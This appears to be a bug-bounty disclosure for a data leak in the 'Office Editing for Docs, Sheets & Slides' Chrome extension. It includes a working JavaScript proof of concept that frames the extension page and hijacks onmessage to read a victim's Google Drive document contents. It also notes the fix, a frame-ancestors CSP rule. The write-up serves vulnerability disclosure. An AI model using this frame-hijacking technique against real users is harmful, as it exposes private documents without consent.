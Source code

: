 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a pptx/docx you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
if (window.f) document.body.removeChild(f);
f=document.createElement('iframe');
f.width=500;
f.height=500;
f.src='chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' + msofficeDocId + '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

document.body.appendChild(f);

 let loop = setInterval(() => {
 // Wait for iframes to load
 if (f.contentWindow.length !== 2) return;
 clearInterval(loop);

 setTimeout(() => {

 f.contentWindow[0].location = 'about:blank';
 let loop2 = setInterval(() => {
  try {
  // Monitor for leaks via onmessage
  f.contentWindow[0].onmessage = (e) => {
     console.log('Data leaked :) '+ JSON.stringify(e.data));
  }
  clearInterval(loop2);
  } catch {}
 }, 0);
 // Wait a bit for the sandbox to request document content
 }, 600);

}, 0)

// Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
